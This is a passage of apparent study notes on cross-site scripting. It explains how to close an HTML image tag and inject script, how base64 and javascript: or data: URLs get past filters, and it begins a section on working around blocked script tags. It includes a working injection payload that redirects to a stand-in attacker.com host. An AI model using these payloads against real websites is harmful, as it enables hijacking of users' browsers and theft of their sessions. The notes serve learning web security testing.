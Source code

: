 But base 64 encoding will help bypass XSS filters.

These sort of payloads will be helpful the website allows url inputs from user to it's parameters or sometimes if we find,

```html
<img src="IMAGE_URL"/>
```

We can enter javascript url scheme or data url scheme to trick webpage into loading javascript code.


XSS payload cheat-sheet :
```
https://portswigger.net/web-security/cross-site-scripting/cheat-sheet/
```

## Closing Out HTML Tags

Sometimes we need to be closing  the html tags before our payloads,

Example here is a real image tag:
```html
<img src="USER_INPUT">
```

We need to modify our payload for not get syntax errors like this,

```js
"/><script>location="http://attacker.com";</script>
```

The first `"/>` will close the image tag and allow us to insert payload.

So in total the image tag looks like,
```html
<img src=""/><script>location="http://attacker.com";</script>">
```

If the payload is not working look at the response page to check for syntax  error caused.

Some common payloads:
![Screenshot 2023-10-30 at 2.18.49 PM.png](Screenshot%202023-10-30%20at%202.18.49%E2%80%AFPM.png)


## Bypassing XSS Protection

###### Alternative JavaScript Syntax

Some times `<script>` tag will be blacklisted, in such scenarios...

`scenario:`

```html
<img src="USER_INPUT">
```

Imagine this is the attribute we want to insert payload in, where script tag is blacklisted.
